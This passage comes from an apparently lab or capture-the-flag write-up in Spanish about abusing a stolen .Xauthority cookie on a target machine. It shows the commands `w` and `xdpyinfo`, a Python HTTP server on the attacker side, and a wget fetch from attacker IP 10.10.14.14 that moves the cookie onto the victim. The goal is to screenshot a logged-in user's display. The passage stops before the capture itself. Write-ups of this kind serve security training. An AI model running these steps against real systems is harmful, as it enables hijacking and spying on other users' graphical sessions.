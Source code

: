 Como ya se cuenta con acceso dentro de la máquina, se puede plantear un ataque mediante el uso de la cookie de **Xauthority**. Por lo tanto, se puede hacer uso del comando `w` para verificar si el usuario del que se posee la cookie se encuentra dentro de la máquina.


```bash
w
 03:02:14 up  3:46,  1 user,  load average: 0.00, 0.05, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
ross     tty7     :0               23:15    3:46m 21.69s  0.05s /usr/libexec/gnome-session-binary --systemd --session=gnome
```
{: .nolineno}


Al validar que **ross** se encuentra conectado, se confirma que se puede abusar de esto para tomar una captura de pantalla del usuario.


Como primer paso, es necesario añadir como variable de entorno `HOME` el directorio en el que se encuentra el archivo `.Xauthority`.


```bash
cd   
bash: cd: HOME not set
```
{: .nolineno}

```bash
export HOME=/home/alex
```
{: .nolineno}


Por lo tanto, se puede usar el siguiente comando para verificar si se cuenta con todo funcionando. Sin embargo, es importante tener en cuenta que no va a funcionar de **momento** porque el archivo no se ha transferido a la víctima.


```bash
xdpyinfo -display :0
No protocol specified
xdpyinfo:  unable to open display ":0".
```
{: .nolineno}


Por lo tanto, se monta un servidor en **Python** para que luego se consuma el archivo y se descargue dentro de la máquina.


```bash
python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
```
{: .nolineno}


```bash
wget http://10.10.14.14:8081/.Xauthority
```
{: .nolineno}
